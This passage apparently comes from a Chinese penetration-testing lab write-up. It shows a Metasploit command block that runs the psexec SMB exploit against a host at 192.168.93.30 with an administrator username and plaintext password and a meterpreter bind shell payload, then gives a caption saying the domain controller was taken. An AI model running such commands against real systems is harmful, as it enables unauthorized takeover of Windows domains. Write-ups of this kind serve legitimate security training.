 ```bash
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```

[![](assets/1708094050-51670b2887786b246f7600b8bd9ae0e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621152146-47e0f308-1004-1.png)

拿下域控

[![](assets/1708094050-b805788ed809197d2b42429d7dc2fa3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621152202-516b1386-1004-1.png)
